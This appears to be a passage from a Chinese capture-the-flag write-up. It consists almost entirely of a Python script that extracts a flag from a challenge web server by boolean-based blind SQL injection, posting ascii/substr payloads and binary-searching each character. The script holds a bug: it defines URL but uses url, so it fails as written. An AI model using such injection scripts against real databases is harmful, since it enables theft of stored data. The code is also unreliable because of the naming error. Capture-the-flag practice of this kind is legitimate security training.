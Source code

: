 ![img](../../../assets/1937992-20200911094122880-1747349205.png)

长度为 472 的是没有被过滤掉的，Python 程序如下：

```python
import requests

URL = "http://abcb7ed0-472f-4763-8251-cc01fb48192b.node5.buuoj.cn:81/index.php"

ans = ""
i = 0

while True:
    i = i + 1
    left = 32
    right = 127
    while left < right:
        mid = (left + right) // 2
        payload = f"if(ascii(substr((select(flag)from(flag)),{i},1))>{mid},1,2)"
        data = {"id": payload}
        res = requests.post(url=url, data=data)
        if "Hello" in res.text:
            left = mid + 1
        else:
            right = mid
    if left != 32:
        ans += chr(left)
        print(ans)
    else:
        break
```
